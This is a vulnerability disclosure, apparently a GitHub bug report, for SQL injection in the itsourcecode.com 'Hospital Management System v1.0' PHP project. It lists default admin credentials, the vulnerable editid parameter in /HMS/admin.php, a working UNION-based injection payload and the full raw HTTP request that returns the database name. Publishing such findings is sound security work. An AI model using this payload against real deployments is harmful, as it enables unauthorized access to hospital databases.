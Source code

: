 # Hospital Management System v1.0 by itsourcecode.com has SQL injection

**Login account:** 

​		username：admin

​		password：123456789

**vendors:** https://itsourcecode.com/free-projects/php-project/hospital-management-system-in-php-with-source-code/

**Vulnerability url:** /HMS/admin.php?editid=

**Vulnerability location:** /HMS/admin.php

When the Edit button is clicked, a request is sent to query admin information based on editid

![sql_injection1.1](https://github.com/Renrao/bug_report/blob/master/blob/main/vendors/itsourcecode.com/hospital-management-system/images/sql_injection1.1.png)

**[+] Payload:** /HMS/admin.php?editid=1'%20union%20select%201%2cdatabase()%2c3%2c4%2c5%2c6%20limit%201%2c1%23

​	Leak place : editid

**Current database name:** hms

**Request package**：select admin information by editid

```
GET /HMS/admin.php?editid=1'%20union%20select%201%2cdatabase()%2c3%2c4%2c5%2c6%20limit%201%2c1%23 HTTP/1.1
Host: 10.12.171.4
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.12.171.4/HMS/viewadmin.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: PHPSESSID=t9h6rke4unvvsje2tvam91601p; _ga=GA1.1.1903248581.1656124410; _gid=GA1.1.2042416137.1656124410; _gat=1
Connection: close
```

**SQL injection result**：database name is displayed.

![sql_injection1.2](https://github.com/Renrao/bug_report/blob/master/blob/main/vendors/itsourcecode.com/hospital-management-system/images/sql_injection1.2.png)